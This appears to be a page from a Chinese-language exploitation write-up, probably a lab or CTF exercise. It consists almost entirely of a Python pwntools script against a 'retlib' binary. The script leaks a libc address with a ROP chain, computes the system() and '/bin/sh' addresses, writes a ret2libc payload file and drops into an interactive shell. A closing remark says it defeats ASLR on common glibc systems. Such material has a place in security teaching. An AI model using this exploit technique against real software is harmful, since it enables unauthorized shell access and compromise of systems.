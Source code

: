 ```python
print()
while True:
    input("[*] Press Enter to continue...")
    print("[*] Second time start the program to PWN...")
    try:
        p = process("./retlib")
        print("[*] Writing Payload to file...")
        f = open("badfile", "wb")
        f.write(b"A" * 24 + p32(puts_plt) + p32(main_addr) + p32(leak_got))
        f.close()
        print("[+] ROP Chain: junk * 20 + [junk rbp] + [puts_plt] + [main_address] + [leak_got]")
        leak_addr = u32(p.recv(4))
        print("[+] Second time " + leak_function + " address: " + hex(leak_addr))
        libc_base = leak_addr - libc_func_offset
        print("[+] libc_base: " + hex(libc_base))
        system_addr = libc_base + system_offset
        print("[+] system_addr: " + hex(system_addr))
        binsh_addr = libc_base + binsh_offset
        print("[+] binsh_addr: " + hex(binsh_addr))
        print()
        print("[*] Writing Final Payload to file...")
        f = open("badfile1", "wb")
        f.write(b"A" * 24 + p32(system_addr) + b"AAAA" + p32(binsh_addr))
        f.close()
        os.system("cat badfile1 > badfile")
        print("[+] ROP Chain: junk * 20 + [junk rbp] + [system_addr] + [junk] + [binsh_addr]")
        print()
        p.sendline(b"echo PWNED")
        _ = p.recvuntil(b"PWNED")
        print("[!] PWNED!")
        print("Enjoy your shell!")
        p.interactive()
    except Exception as e:
        print("[-] Unlucky...")
        print("[*] Restarting...")
    finally:
        p.close()

```
以下是保留编译选项不变，开启ASLR的情况下在任意(常见linux发行版的任意glibc)环境下运行利用脚本获取shell的截图。  
两次运行中，libc中的函数(如fread)地址是不同的。  